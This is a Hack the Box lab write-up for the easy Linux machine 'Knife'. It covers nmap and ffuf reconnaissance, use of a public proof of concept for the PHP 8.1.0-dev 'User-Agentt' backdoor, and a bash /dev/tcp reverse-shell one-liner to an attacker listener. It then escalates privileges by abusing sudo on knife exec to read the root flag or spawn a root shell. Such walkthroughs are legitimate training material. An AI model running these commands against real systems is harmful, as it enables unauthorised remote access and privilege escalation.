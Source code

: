 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
date = 2021-08-28T16:35:39Z
description = ""
draft = false
thumbnail = "/images/2021/08/knife.png"
slug = "hack-the-box-knife"
summary = "Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!\n"
tags = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
title = "Hack the Box - Knife"

+++


Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!

As usual, we start with `nmap`:

```
Nmap scan report for 10.10.10.242
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we view what's being hosted on port 80 we are brough to a hospital hosting site. There isn't anything notable on the site that we can access. We'll start by enumerating with `ffuf`.

Command:
`ffuf -u http://10.10.10.242/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -fs 277`

In this case we use the `-fs` to hide responses with a size of 277 because of the amount of false positives. There is nothing additional. So we move on to using `Burpsuite`. When we load up `Burpsuite` and view our request / response, we see a hint:

![](/images/2021/08/image.png)

The `X-Powered-By` Header value. The first google results gives us [this](https://packetstormsecurity.com/files/162864/PHP-8.1.0-dev-Backdoor-Remote-Command-Execution.html). They were so kind to even give us a PoC script. We download the PoC and execute it:

Command:
`python3 exploit.py -l http://10.10.10.242`

When we run it, we get an interactive shell back.

![](/images/2021/08/image-1.png)

We use `which nc` to identify if `netcat` is on the system.

![](/images/2021/08/image-2.png)

We attempt to use `netcat` to create a shell back, but it doesn't work.

![](/images/2021/08/image-3.png)

So instead of `netcat` we'll try to catch a shell with a `bash` command.

Command:
`bash -i >& /dev/tcp/10.10.14.68/6969 0>&1`

That didn't work either. So, there is a space on this PoC for proxy interface. We'll simply uncomment it and let the requests go through `Burpsuite` so we can see what's being sent.

![](/images/2021/08/image-4.png)

Now with our requests coming through Burp, we can see what's being sent. In actuallity its just a simple header value - `User-Agentt` is the value we can modify to obtain the backdoor.

![](/images/2021/08/image-5.png)

We modify the request as it comes through to send us a shell to a `netcat` listener on port 6969

![](/images/2021/08/image-6.png)

Next we check to see what we can run as `root` with `sudo -l`

![](/images/2021/08/image-7.png)

We see that we can run an app called `knife`. Some googling finds us the [documentation](https://docs.chef.io/workstation/knife_exec/). There's a section for `exec`. This function lets us execute codes through itself. After some trial and error, we were able to craft a command to get the root flag.

Command:
`sudo /usr/bin/knife exec -E "exec 'cat /root/root.txt'"`

Now you could also call an interactive `bash` shell and work that way

Command:
`sudo /usr/bin/knife exec -E "exec '/bin/bash -i'"`

Either way gets us our `root.txt` flag! This was a very fast and simple box. The hardest part was understanding the `exec` pattern in the `Knife` command.



